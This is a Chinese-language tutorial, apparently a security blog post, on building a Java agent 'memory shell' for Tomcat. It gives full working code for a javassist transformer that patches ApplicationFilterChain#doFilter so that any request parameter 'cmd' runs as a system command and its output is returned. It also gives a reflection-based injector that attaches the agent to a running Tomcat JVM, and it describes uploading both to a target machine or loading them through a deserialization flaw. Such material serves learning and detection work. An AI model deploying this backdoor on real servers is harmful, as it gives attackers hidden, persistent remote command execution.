java agent内存马
目录
What is java agent
agent,是JDK1.5提出的一个机制。 它起到了 "代理"的作用，就像BurpSuite可以对浏览器进行代理、抓包，javaagent也可以对java程序的信息进行监控、修改等操作。
JDK1.5后引入了 java.lang.instrument 包，这个包用于实现javaagent这个机制，它里面的API可以在不影响目标java程序正常编译的情况下
动态修改其字节码，也就是说可以动态修改其类、方法、属性 等信息。
javaagent的加载分为启动前加载（ jdk 1.5 以后）和启动后加载（jdk1.6以后），分别对应着premain 方法和agentmain 方法。
启动前加载
启动前加载的原理是：在java程序main函数执行前，先执行java agent设定的premain方法。这个方法在JDK1.5被提供了出来。
操作
首先我们创建一个普通的类
public class test {
public static void main(String[] args){
System.out.println("Hello World!");
}
}
为其编写打包jar时所需要的的mainfest文件,test.mf。（注意mf文件中需要有一行空行）
Manifest-Version: 1.0
Main-Class: test
再创建一个agent类
import java.lang.instrument.Instrumentation;
public class agen {
public static void premain(String agentArgs, Instrumentation inst) throws Exception{
System.out.println(agentArgs);
}
}
编写mainfest,agen.mf
Manifest-Version: 1.0
Premain-Class: agen
然后执行以下指令，获得test.jar和agen.jar

然后用以下指令在test.jar程序执行前先执行agen.jar
java -javaagent:agen.jar[=options] -jar test.jar

可以发现我们premain中的代码比main中的代码优先执行了。
启动后加载
启动后加载原理是：在java程序启动后，使其指向我们设定的agentmain方法。agent内存马注入多用的是这种方式。
要实现启动后加载需要两个java文件，一个定义agentmain方法，一个起到注入器的作用。
操作
首先写agen.java
import java.lang.instrument.Instrumentation;
public class agen{
public static void agentmain(String agentArgs, Instrumentation inst) {
for (int i = 0; i < 10; i++) {
System.out.println("agentmain gogogogo");
}
}
}
inject.java
import com.sun.tools.attach.AgentInitializationException;
import com.sun.tools.attach.AgentLoadException;
import com.sun.tools.attach.AttachNotSupportedException;
import com.sun.tools.attach.VirtualMachine;
import java.io.IOException;
public class inject{
public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException {
String id = args[0];
String jarName = args[1];
System.out.println("id ==> " + id);
System.out.println("jarName ==> " + jarName);
VirtualMachine virtualMachine = VirtualMachine.attach(id);
virtualMachine.loadAgent(jarName);
virtualMachine.detach(); //断开与目标JVM的链接
System.out.println("ends");
}
}
test.java
public class test {
public static void main(String[] args){
System.out.println("main begin!");
while(true){
}
}
}
然后分别打包成jar包，其中agen.java的mf文件需要这样写
Manifest-Version: 1.0
Agent-Class: agen

这里输入test.jar 启动后的PID以及agentmain对应的jar包

可以发现确实注入了test.jar，且执行了agentmain里的方法。
动态修改字节码
上文讲述了agent的概念以及两种加载方式，下面会对javaagent修改字节码这一功能进行详细叙述。
动态修改字节码是使用Instrumentation来实现的，javaagent通过这个类与目标JVM进行交互，从而修改其数据，也就是修改其字节码。
这个类是一个接口类，它有如下方法。
public interface Instrumentation {
//增加一个Class文件转换器
void addTransformer(ClassFileTransformer transformer);
// 删除一个类转换器
boolean getAllLoadedClasses(ClassFileTransformer transformer);
// 在类加载之后，重新定义 Class。这个很重要，该方法是1.6 之后加入的，事实上，该方法是 update 了一个类。
void retransformClasses(Class<?>... classes) throws UnmodifiableClassException;
// 判断目标类是否能够修改。
boolean isModifiableClass(Class<?> theClass);
// 获取目标已经加载的类。
@SuppressWarnings("rawtypes")
Class[] getAllLoadedClasses();
......
}
对于修改字节码，比较重要的方法有addTransformer、getAllLoadedClasses、retransformClasses 等。
对于这些方法，有一个比较重要的概念是Transformer，它会拦截已加载的或者正在加载的类，并交由内部的transfrom方法进行处理，凭此可以用于修改class文件的字节码。
另外，想要让agent类能够实现修改字节码等操作，需要在mf中增加以下行，若没有以下配置则可能会导致报错。
Can-Redefine-Classes: true
Can-Retransform-Classes: true
addTransformer

通过该方法来注册Transformer，我们跟进ClassFileTransformer类来一窥Transformer的模样。

可以发现它也是一个接口类，所以我们要自己编写继承于它的Transformer去实现它的transform方法. 这个transform返回结果即转换后的字节码。
Transformer会拦截已加载的或者正在加载的类，并交由内部的transfrom方法进行处理。
我们这里写个小demo来输出所有被Transformer拦截的类。
import java.lang.instrument.Instrumentation;
public class agen{
public static void agentmain(String agentArgs, Instrumentation inst) {
inst.addTransformer(new DefineTransformer(),true);
System.out.println("agent gogo");
Class[] classes = inst.getAllLoadedClasses();
for(Class clas:classes){
System.out.println(clas.getName());
}
}
}
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.security.ProtectionDomain;
public class DefineTransformer implements ClassFileTransformer {
@Override
public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
System.out.println(className);
return new byte[0];
}
}

getAllLoadedClasses
该方法可以列出所有已加载的class，并以数组形式返回。
import java.lang.instrument.Instrumentation;
public class agen{
public static void agentmain(String agentArgs, Instrumentation inst) {
System.out.println("agent gogo");
Class[] classes = inst.getAllLoadedClasses();
for(Class clas:classes){
System.out.println(clas.getName());
}
}
}

retransformClasses
这个方法能对已加载的class进行重新定义，可以配合getAllLoadedClasses方法来重新定义已加载对象。 具体是将已加载对象拦截，交由Transformer#transform 方法处理。
Demo
对上面的三个方法可能有了点懵懵懂懂的感觉，下面会通过一个内存马Demo来更深刻的认识agent是如何修改字节码的。
这里直接借用木头师傅的图片

这里的意思是便是：当加载到指定类时，通过javassist技术修改其字节码，将恶意代码进行植入，从而达到了内存马的目的。
agent内存马注入
这里以tomcat Filter 内存马为例，通过agent技术向其注入内存马。
tomcat 调用Filter的栈帧顺序如下

从图中可以看见它调用了ApplicationFilterChain#doFilter,这个方法的代码如下

它调用了internalDofilter并传入了request,response参数进入了下一层，开始调用filterchain中各filter对象的Dofilter方法。 不过我们想进行agent注入，完全不用到filterchain里去做文章，只需要修改ApplicationFilterChain#doFilter这个方法即可。
filterchain中各filter对象调用Dofilter方法所需要的参数仅仅只要request，response和filterchain

而其中filterchain属性的作用仅仅是去调用filterchain中下一个filter的Dofilter方法，所以实际上被Dofilter方法调用来处理用户请求的参数只有response和request. 下图是一个filter内存马，可以发现内存马仅在request和response上做了文章。

而在ApplicationFilterChain#doFilter中我们已经获得了request和response属性，所以我们可以直接修改ApplicationFilterChain#doFilter字节码向其写入内存马。
实操
我们先写好agent和Transformer。
我们拦截类ApplicationFilterChain，去修改它的方法DoFilter。
import java.lang.instrument.Instrumentation;
public class AgentMain {
public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";
public static void agentmain(String agentArgs, Instrumentation ins) {
ins.addTransformer(new DefineTransformer(),true);
// 获取所有已加载的类
Class[] classes = ins.getAllLoadedClasses();
for (Class clas:classes){
if (clas.getName().equals(ClassName)){
try{
// 对类进行重新定义
ins.retransformClasses(new Class[]{clas});
} catch (Exception e){
e.printStackTrace();
}
}
}
}
}
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;
import javassist.*;
public class DefineTransformer implements ClassFileTransformer {
public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";
public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
System.out.println("transform begin");
className = className.replace("/",".");
if (className.equals(ClassName)){
System.out.println("Find the Inject Class: " + ClassName);
ClassPool pool = ClassPool.getDefault();
if (classBeingRedefined != null) { //这个地方必须加，它和获取相应ClassLoader有关，不加就有可能出现javassist.NotFoundException 错误
ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
pool.insertClassPath(classPath);
}
try {
CtClass c = pool.getCtClass(className);
CtMethod m = c.getDeclaredMethod("doFilter");
m.insertBefore("System.out.println(321);\n"+
"javax.servlet.http.HttpServletRequest req = request;\n" +
"javax.servlet.http.HttpServletResponse res = response;\n" +
"java.lang.String cmd = request.getParameter(\"cmd\");\n" +
"if (cmd != null){\n" +
" try {\n" +
" java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
" java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
" String line;\n" +
" StringBuilder sb = new StringBuilder(\"\");\n" +
" while ((line=reader.readLine()) != null){\n" +
" sb.append(line).append(\"\\n\");\n" +
" }\n" +
" response.getOutputStream().print(sb.toString());\n" +
" response.getOutputStream().flush();\n" +
" response.getOutputStream().close();\n" +
" } catch (Exception e){\n" +
" e.printStackTrace();\n" +
" }\n" +
"}");
byte[] bytes = c.toBytecode();
c.detach();
return bytes;
} catch (Exception e){
e.printStackTrace();
}
}
return new byte[0];
}
}
然后打包成jar,我这里是用 命令mvn assembly:assembly打包的，pom长这样
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<build>
<plugins>
<plugin>
<artifactId>maven-assembly-plugin</artifactId>
<configuration>
<descriptorRefs>
<descriptorRef>jar-with-dependencies</descriptorRef>
</descriptorRefs>
<archive>
<manifestEntries>
<Premain-Class>agen</Premain-Class>
<Agent-Class>agen</Agent-Class>
<Can-Redefine-Classes>true</Can-Redefine-Classes>
<Can-Retransform-Classes>true</Can-Retransform-Classes>
</manifestEntries>
</archive>
</configuration>
</plugin>
</plugins>
</build>
<groupId>groupId</groupId>
<artifactId>agen</artifactId>
<version>1.0-SNAPSHOT</version>
<dependencies>
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
</dependency>
</dependencies>
</project>
然后写注入器
import com.sun.tools.attach.AgentInitializationException;
import com.sun.tools.attach.AgentLoadException;
import com.sun.tools.attach.AttachNotSupportedException;
import com.sun.tools.attach.VirtualMachine;
import java.io.IOException;
public class inject{
public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException {
String id = args[0];
String jarName = args[1];
System.out.println("id ==> " + id);
System.out.println("jarName ==> " + jarName);
VirtualMachine virtualMachine = VirtualMachine.attach(id);
virtualMachine.loadAgent(jarName);
virtualMachine.detach(); //断开与目标JVM的链接
System.out.println("ends");
}
}
然后我们可以把注入器打包成jar，将注入器和javaagent都上传到目标机器上，通过注入器将agent注入到目标tomcat中生成filter内存马。 也可以只上传agent，然后通过反序列化漏洞接口进行命令执行，以此来执行我们注入器的命令将agent注入到tomcat中生成filter内存马。
如果出现类找不到的情况，则需要通过URLClassLoader+反射加载我们所需要的类。 这里直接借用木头师傅写好的 URLClassLoader+反射加载 的注入器
package main.java;
import java.io.IOException;
import java.lang.reflect.Method;
import java.util.List;
public class inject {
public static void main(String[] args) throws Exception{
try{
java.lang.String path = "E:\\tools\\java\\idea\\agen\\target\\agen-1.0-SNAPSHOT-jar-with-dependencies.jar";
//这里是去加载注入器所需要的tools.jar，对应类为com.sun.tools
java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
java.net.URL url = toolsPath.toURI().toURL();
java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
Class/*<?>*/ MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
Class/*<?>*/ MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
java.util.List/*<Object>*/ list = (java.util.List/*<Object>*/) listMethod.invoke(MyVirtualMachine,null);
System.out.println("Running JVM list ...");
for(int i=0;i<list.size();i++){
Object o = list.get(i);
java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
java.lang.String name = (java.lang.String) displayName.invoke(o,null);
System.out.println(name);
// 列出当前有哪些 JVM 进程在运行
// 这里的 if 条件根据实际情况进行更改
if (name.contains("org.apache.catalina.startup.Bootstrap start")){
// 获取对应进程的 pid 号
java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
java.lang.String id = (java.lang.String) getId.invoke(o,null);
System.out.println("id >>> " + id);
java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
java.lang.Object vm = attach.invoke(o,new Object[]{id});
java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
loadAgent.invoke(vm,new Object[]{path});
java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
detach.invoke(vm,null);
System.out.println("Agent.jar Inject Success !!");
break;
}
}
} catch (Exception e){
e.printStackTrace();
}
}
}
这里是选择把注入器打包成jar用，用Manifest打包（主要是maven还没玩明白），上文有有关Manifest的相关步骤，所以此处具体步骤省略了。
然后通过注射器将agent注入到tomcat中


坑点
- 在transfrom方法中我们写了这一段代码
if (classBeingRedefined != null) { //这个地方必须加，它和获取相应ClassLoader有关，不加就有可能出现javassist.NotFoundException 错误
ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
pool.insertClassPath(classPath);
}
如果不加这一段的话就会报错 javassist.NotFoundException:org.apache.catalina.core.ApplicationFilterChain
原因是这样的
“ClassPool.getDefault() 方法的搜索Classpath 只是搜索JVM的同路径下的class。当一个程序运行在JBoss或者Tomcat下，ClassPool Object 可能找到用户的classes。Javassist 提供了四种动态加载classpath的方法。” 如果仅仅靠一个getDefault，是无法获取到tomcat的类的，因为tomcat的类并没有存放在JVM同路径下。
要解决这个方法很简单，首先我们看一下transform提供的第三个参数的定义
classBeingRedefined:
if this is triggered by a redefine or retransform, the class being redefined or retransformed; if this is a class load, null
翻译过来就是，如果当前transform所处理的对象是已加载过的类，那么这个参数的值便是当前所处理的对象；如果是新加载的类，则为null
因为org.apache.catalina.core.ApplicationFilterChain在agent注入时肯定是已经加载过了的，所以我们可以直接通过这个参数来获得org.apache.catalina.core.ApplicationFilterChain的class对象，然后将其设置为javassist中ClassPool的ClassPath，这样就不会出现 javassist.NotFoundException了。
2.maven打包的使用，还得好好看看，折腾了好半天